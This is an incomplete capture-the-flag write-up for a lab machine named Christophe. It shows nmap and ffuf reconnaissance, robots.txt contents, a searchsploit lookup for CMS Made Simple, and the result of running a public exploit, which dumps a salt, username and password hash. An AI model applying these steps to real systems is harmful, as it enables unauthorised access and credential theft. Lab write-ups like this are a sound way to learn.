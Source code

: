 # SP: Christophe (V1.0.2) - Not complteted

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 14:11:d1:8b:12:0b:78:be:04:4f:74:0d:34:a5:fa:07 (RSA)
|   256 47:69:72:f9:b7:76:33:58:6f:eb:8d:1c:da:9e:b5:c6 (ECDSA)
|_  256 79:08:59:b0:df:ec:13:31:9e:d8:24:54:1d:b6:27:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 551E34ACF2930BF083670FA203420993
|_http-generator: CMS Made Simple - Copyright (C) 2004-2018. All rights reserved.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home - Viva La Resistance!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dirs

```
http://christophe.local
```

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt  -u http://christophe.local/tmp/FUZZ -ic -e html,php,sh,aspx,bak,zip,png -mc 200,301,302
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -u http://christophe.local/tmp/FUZZ -ic -e html,php,sh,aspx,bak,zip,png

http://christophe.local/doc/htaccess.txt

http://192.168.1.95/modules/
http://192.168.1.95/lib/jquery/
http://192.168.1.95/lib/lang/
```

## Robots.txt
```
http://christophe.local/doc/robots.txt

User-agent: *

Disallow: /assets/
Disallow: /doc/
Disallow: /lib/
Disallow: /modules/
Disallow: /tmp/

Allow: /tmp/cache/
```

## CMS Made Simple
![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)

```
searchsploit "cms made simple"
```

![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


Copy the exploit and run it with python and the variables it needs. 

```
[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```


